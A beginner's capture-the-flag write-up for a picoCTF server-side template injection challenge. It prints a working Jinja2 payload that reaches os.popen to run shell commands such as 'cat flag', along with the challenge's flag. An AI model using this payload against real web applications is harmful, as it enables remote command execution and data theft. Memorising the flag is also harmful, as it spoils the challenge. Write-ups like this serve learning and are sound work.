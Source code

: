 # [SST11 - Server Side Template Injection (Web Exploitation)](https://play.picoctf.org/practice/challenge/492?page=1)

**Challenge Description**  
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:52471/)! (The website might not work as the URL changes whenever the instance is opened)

**Category**: Web Exploitation  
**Difficulty**: Easy  

## Approach

This is my first CTF and I was clueless. I got confused about what to do with the URL. I searched up SSTI and got to know what it is. I'll explain SSTI in the simplest way possible without diving too deep into technical jargon and what I generally understood in these few hours.Imagine a website that lets you type your name, and then shows a welcome message like: Hello [your-name-here]!.Normally, if you type "Alice", it shows:Hello Alice! But if the website isn't built carefully, then there's a lot of problems that can occur. I got to know about the classic payload {{7*7}} from internet and thus used it. Also, I got to know that payloads are readymade found on the internet, depending upon the type of web template engine used. We just need to know how to tweak/modify it to use for our application in this CTF challenge.

1. **Identify SSTI Vulnerability**  

   Tested with `{{7*7}}` which returned `49`, confirming template injection.

3. **Command Execution**

   I found then a payload from the [website](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) and used Jinja2 template engine exploit:
   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}```
This showed all the files and I found the "flag" file and thus again used "cat flag" command with little tweaking in the above command.

   ```jinja2
   {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
which returned me the flag - picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}

